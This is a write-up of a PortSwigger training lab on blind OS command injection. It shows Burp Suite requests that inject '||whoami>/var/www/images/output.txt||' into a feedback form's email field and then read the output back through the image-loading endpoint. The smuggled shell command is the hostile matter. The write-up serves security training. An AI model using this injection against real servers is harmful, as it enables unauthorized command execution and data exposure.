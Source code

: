 # Blind OS command injection with output redirection

## Description

[This lab](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection) contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:

    /var/www/images/

The application serves the images for the product catalog from this location. It is possible to redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file. 

## Reproduction and proof of concept

1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the email parameter, changing it to: `email=||whoami>/var/www/images/output.txt||`

```text
POST /feedback/submit HTTP/1.1
Host: 0ad40078044cb583c02f95a200910010.web-security-academy.net
Cookie: session=dUa7zaWcifFtBvIhkwFb4n5GnkIqqMXn
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 138
Origin: https://0ad40078044cb583c02f95a200910010.web-security-academy.net
Referer: https://0ad40078044cb583c02f95a200910010.web-security-academy.net/feedback
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

csrf=O2zf4h88FisbEIpRcnTwCACCCH73Tsdp&name=test&email=||whoami>/var/www/images/output.txt||&subject=output+redirection&message=is+possible
```

3. Now use Burp Suite to intercept and modify the request that loads an image of a product.
4. Modify the filename parameter, changing the value to the name of the file specified for the output of the injected command: `filename=output.txt`

```text
GET /image?filename=output.txt HTTP/1.1
Host: 0ad40078044cb583c02f95a200910010.web-security-academy.net
Cookie: session=dUa7zaWcifFtBvIhkwFb4n5GnkIqqMXn
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ad40078044cb583c02f95a200910010.web-security-academy.net/product?productId=1
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
```

5. Observe that the response contains the output from the injected command.

## Exploitability

An attacker will need to execute the `whoami` command and retrieve the output. 
